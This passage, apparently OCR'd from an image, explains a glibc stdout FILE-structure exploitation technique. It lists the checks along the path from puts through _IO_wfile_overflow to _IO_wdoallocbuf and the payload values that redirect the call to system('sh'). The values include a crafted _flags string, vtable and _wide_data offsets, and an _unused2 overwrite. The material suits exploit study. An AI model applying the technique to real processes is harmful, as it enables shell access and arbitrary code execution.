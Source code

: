 - puts
1. `fp = stdout` 
2. `fp->lock` → rw
3. `fp->vtable->__xsputn == _IO_wfile_overflow`

- _IO_wfile_overflow
1. `fp->_flags & _IO_NO_WRITES == 0`
2. `fp->_flags & _IO_CURRENTLY_PUTTING == 0`
3. `fp->_wide_data->_IO_write_base == 0`

- _IO_wdoallocbuf
1. `fp->_wide_data->_IO_buf_base == 0`
2. `fp->_flags & _IO_UNBUFFERED == 0`
3. `fp->_wide_data->_wide_vtable_->__doallocate == libc_system`

Now let's organized constrains for each member variable of stdout.

<br/>
<br/>


### fp->vtable
To satisfy `vtable->__xsputn == _IO_wfile_jumps.__overflow`, `fp->vtable` should be set to libc['_IO_wfile_jumps'] - 0x20`

<br/>
<br/>
### fp->_flags
```c
_flags & _IO_NO_WRITES == 0
_flags & _IO_CURRENTLY_PUTTING == 0
_flags & _IO_UNBUFFERED == 0

// #define _IO_NO_WRITES         0x0008
// #define _IO_CURRENTLY_PUTTING 0x0800
// #define _IO_UNBUFFERED        0x0002
```
At the last part of the code flow, `_IO_WDOALLOCATE (fp)` is called. Since `_flags` is the first member variable of `_IO_FILE`, setting it to `b"\x01\x01;sh;\x00\x00"` will make fp(stdout) point to "sh".

<br/>
<br/>


### fp->_wide_data
```c
_wide_data->_IO_buf_base == 0
_wide_data->_IO_write_base == 0
_wide_data->_wide_vtable_->__doallocate == libc_system
```
This part is a little tricky. By setting  `stdout->_wide_data` to `&_IO_2_1_stdout_ - 16`, 
and `stdout->_unused2[20]` to `p64(libc.symbols['system'])+ b"\x00"*4 + p64(libc.symbols['_IO_2_1_stdout_'] + 196 - 104)` we can make `_wide_data->_wide_vtable_->__doallocate` point to `libc_system`
`.
